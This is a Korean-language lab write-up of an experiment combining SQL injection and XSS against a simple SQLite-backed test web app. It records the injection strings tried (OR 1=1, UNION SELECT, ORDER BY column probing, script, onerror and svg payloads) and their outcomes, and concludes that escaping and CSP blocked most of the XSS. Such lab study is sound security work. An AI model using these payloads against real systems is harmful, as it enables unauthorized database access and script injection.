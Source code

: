 # SQL Injection & XSS 결합 공격 실험 Write-up

## 1. 실험 개요
- 본 실험은 간단한 SQLite 기반 웹 환경에서 SQL Injection(이하 SQLi) 및 XSS(크로스사이트 스크립팅) 결합 공격의 가능성과 한계를 검증하기 위해 진행되었습니다.
- 주요 목표는 SQLi를 통해 DB 쿼리를 우회하거나, XSS 페이로드를 삽입하여 클라이언트 측 코드 실행을 유도하는 것입니다.

---

## 2. SQL Injection 기본 공격

### 2-1. 단순 SQLi 시도
- **입력값:**
  ```sql
  ' OR 1=1 --
  ```
- **결과:**
  - 아래와 같이 2개의 사용자 정보가 노출됨
    - ID: 1, Username: soap, Password: soap, Role: guest
    - ID: 2, Username: aa, Password: aa, Role: guest

### 2-2. 에러 기반 SQLi 시도
- **입력값:**
  ```sql
  ' UNION SELECT null, version() --
  ```
- **결과:**
  - 에러 발생: `sqlite3.OperationalError: no such function: version`
  - Error: (sqlite3.OperationalError) no such function: version [SQL: SELECT * FROM user WHERE username = '' UNION SELECT null, version() --' AND username != 'admin'] (Background on this error at: https://sqlalche.me/e/20/e3q8)
- **분석:**
  - SQLite에는 `version()` 함수가 없어 에러 발생
  - 원래 SQL 문은 SELECT * FROM user WHERE username = '' AND username != 'admin

### 2-3. 컬럼 수 파악
- **입력값:**
  ```sql
  ' ORDER BY 1 --
  ' ORDER BY 2 --
  ' ORDER BY 3 --
  ' ORDER BY 4 --
  ' ORDER BY 5 --
  ```
- **결과:**
  - 5에서 에러 발생 → 4개 컬럼 존재 확인
- **분석:**
  - username을 받아와서 검색하며, username이 'admin'이 아닌 경우만 조회

---

## 3. SQLi + XSS 결합 공격 시도

### 3-1. 직접 `<script>` 삽입
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '<script>alert(1)</script>', 'x', 'x' --
  ```
- **결과:**
  - HTML에는 보이나, 스크립트 실행되지 않음
- **원인:**
  - 브라우저 보안 정책(escape 렌더링, innerHTML 미사용 등)

### 3-2. ASCII 인코딩(char()) 기반 XSS
- **페이로드:**
  ```sql
  ' UNION SELECT 1, char(60,115,99,...), 'x', 'x' --
  ```
- **결과:**
  - 디코딩 결과 `<script>alert(1)</script>`가 HTML에 노출되나, 실행되지 않음
- **원인:**
  - 템플릿 자동 escape 또는 text 렌더링

### 3-3. 이벤트 기반 XSS (`<img src=x onerror=alert(1)>`)
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '<img src=x onerror=alert(1)>', 'x', 'x' --
  ```
- **결과:**
  - 그대로 출력, 실행 안 됨
- **원인:**
  - escape된 HTML이 텍스트로 처리됨

### 3-4. Script-less XSS (`<svg onload=alert(1)>`)
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '<svg onload=alert(1)>', 'x', 'x' --
  ```
- **결과:**
  - HTML 노출, 실행 안 됨
- **원인:**
  - escape 처리됨

### 3-5. 구조 깨기 시도 (`</li><script>alert(1)</script><li>`)
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '</li><script>alert(1)</script><li>', 'x', 'x' --
  ```
- **결과:**
  - 페이지 렌더링 중 서버 다운/멈춤
- **원인:**
  - 서버측 필터 또는 파서 오류로 인한 crash

### 3-6. data: URI 기반 iframe 삽입
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '<iframe src="data:text/html;base64,PHNj...">', 'x', 'x' --
  ```
- **결과:**
  - iframe 삽입되나, 실행 안 됨
- **원인:**
  - 렌더러 또는 CSP에 의해 차단

### 3-7. HTML Entity 우회
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '&lt;img src=x onerror=alert(1)&gt;', 'x', 'x' --
  ```
- **결과:**
  - 이중 디코딩 안 됨, 공격 실패
- **원인:**
  - 단일 디코딩만 수행됨

---

## 4. 결론 및 시사점
- SQLi 자체는 비교적 쉽게 성공하였으나, XSS 결합 공격은 서버/클라이언트의 escape 처리, 브라우저 보안 정책 등으로 인해 대부분 실패함.
- 서버 렌더링 방식, 템플릿 엔진의 escape 정책, CSP 등 다양한 보안 요소가 결합되어 있어, 단순 페이로드 삽입만으로는 XSS가 쉽지 않음을 확인함.